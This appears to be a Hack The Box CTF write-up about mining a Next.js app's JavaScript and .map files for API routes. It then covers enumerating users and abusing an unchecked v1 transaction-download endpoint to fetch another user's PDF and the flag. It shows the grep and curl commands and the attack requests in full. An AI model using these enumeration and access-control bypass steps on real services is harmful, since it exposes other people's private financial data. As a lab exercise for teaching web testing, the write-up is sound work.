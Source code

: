 ```yaml
---
date:
  created: 2025-08-04
categories:
  - CTF Writeup
  - Hackthebox
  - JavaScript Analysis
  - Web Application Penetration Testing
authors:
  - dibsy
---
```


# JS Miner Recon & API Enumeration

### Summary

This challenge involved client-side reconnaissance through JavaScript `.map` and `.js` files served by a Next.js application. By mining and crawling those files, we uncovered hidden API endpoints, enumerated users via an `inquire` endpoint, and eventually downloaded user-specific transaction PDFs to retrieve the flag.

<!-- more -->

### Reconnaissance with JS Miner

Using **JS Miner**, we crawled source files and `.map` files from a Next.js application hosted at:

```
http://94.237.54.192:40799/_next/static/chunks/...
```

Some sample file hits:
```
[SKIPPED] Task ID: 2 SECRETS_SCAN http://94.237.54.192:40799/_next/static/chunks/app/dashboard/transactions/page-2a49e3cac0ce0da4.js
[SKIPPED] Task ID: 2 SECRETS_SCAN http://94.237.54.192:40799/_next/static/chunks/181-787eb1c908725cd7.js
```

### Cleaning and Downloading JS Files

First, we cleaned the JS file URLs from the output.

```bash
grep -oE 'http://[^ ]+' out.txt > urls.txt
```

Then, downloaded all files using:

```bash
for url in $(cat urls.txt); do curl -O $url; done
```

### Extracting API Endpoints

A combination of `grep` commands was used to extract API paths:

```bash
(
  grep -Eroh '"\/api\/[a-zA-Z0-9_\/\-]+' *.js* ;
  grep -Eroh '"https?:\/\/[^"]+\/api\/[a-zA-Z0-9_\/\-]+' *.js* ;
  grep -Eroh 'fetch\(["'"'"']\/api\/[^"'"'"']+' *.js* ;
  grep -Eroh 'axios\.(get|post|put|delete)\(["'"'"']\/api\/[^"'"'"']+' *.js*
) | sed 's/^"//' | sort -u > api_endpoints.txt
```

This revealed multiple interesting API routes:

```
/api/v1/auth/login
/api/v1/auth/me
/api/v1/transactions/deposit
/api/v2/auth/inquire
/api/v2/transactions/categories-spending
...
```

### Enumerating Users

While investigating `/api/v2/transactions`, we noticed a transaction **received from `neo_system`**.

We queried the `inquire` endpoint:

!!! info "GET /api/v2/auth/inquire?username=neo_system"
```http
Host: 94.237.54.192:40799
```

Response:
```json
{
  "_id": "6890ef01ab3aae0490a87775",
  "username": "neo_system"
}
```

### Exploring the Download API

The `download-transactions` API could export a user’s transaction history as PDF.

- `/api/v2/transactions/download-transactions` didn’t require an `_id`.
- However, the same endpoint in `v1` version **did require an `_id`**.

!!! info "POST /api/v1/transactions/download-transactions"
```json
{
  "_id": "6890ef01ab3aae0490a87775"
}
```

The PDF showed a transaction from user: `user_with_flag`.

### Final Enumeration & Flag Retrieval

Queried `user_with_flag` using the same method:

!!! info "GET /api/v2/auth/inquire?username=user_with_flag"
```http
Host: 94.237.54.192:40799
```

Response:
```json
{
  "_id": "6890ef01ab3aae0490a8777a",
  "username": "user_with_flag"
}
```

Used the `_id` to download the final PDF:

!!! info "POST /api/v1/transactions/download-transactions"
```json
{
  "_id": "6890ef01ab3aae0490a8777a"
}
```

In the PDF we find:

```
7/28/2025 user_with_flag user_with_flag HTB{n0t_s0_..........}
7/28/2025 neo_system user_with_flag Welcome bonus credit Amount 1337.00
```

### Conclusion

This challenge demonstrated the importance of **client-side JavaScript analysis**. Mining `.map` files and source code led to full API discovery, user enumeration, and a privilege escalation-like workflow by exploiting version differences between API endpoints.
